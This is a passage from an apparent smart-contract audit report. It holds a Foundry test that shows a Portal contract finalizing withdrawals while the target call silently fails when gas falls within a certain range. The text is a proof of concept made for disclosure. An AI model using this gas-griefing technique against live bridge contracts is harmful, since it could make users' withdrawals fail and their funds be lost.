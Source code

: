 Here is a Foundry test that calls the Portal with various gas values to expose this vulnerability:
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../src/Portal.sol";

contract PortalGasTest is Test {
    Portal public c;
    GasUser public gu;

    function setUp() public {
        c = new Portal(0x000000000000000000000000000000000000dEaD);
        gu = new GasUser();
    }

    function testGasLimitForGU() public {
        gu.store{gas: 44_602}(1);
        assert(gu.s(0) == 1);
    }

    function _executePortalWithGivenGas(uint gas) public {
        c.execute{gas: gas}(Portal.Transaction({
            gasLimit: 44_602,
            sender: address(69),
            target: address(gu),
            value: 0,
            data: abi.encodeWithSignature("store(uint256)", 1)
        }));
    }

    function testPortalCatchesGasTooSmall() public {
        vm.expectRevert(bytes("OptimismPortal: insufficient gas to finalize withdrawal"));
        _executePortalWithGivenGas(65681);
    }

    function testPortalSucceedsWithEnoughGas() public {
        _executePortalWithGivenGas(70803);
        assert(gu.s(0) == 1);
    }

    function testPortalBugWithInBetweenGasLow() public {
        _executePortalWithGivenGas(65682);
        
        // It now reverts because the array has a length of 0.
        vm.expectRevert();
        gu.s(0);
    }

    function testPortalBugWithInBetweenGasHigh() public {
        _executePortalWithGivenGas(70802);
        
        // It now reverts because the array has a length of 0.
        vm.expectRevert();
        gu.s(0);
    }
}
```
Summarizing the results of this test:
- We verify that the call to the target contract succeeds with 44,602 gas, and set that as gasLimit for all tests.
- When we send 65,681 or less gas, it’s little enough to be caught by the require statement.
- When we send 70,803 or more gas, the transaction will succeed.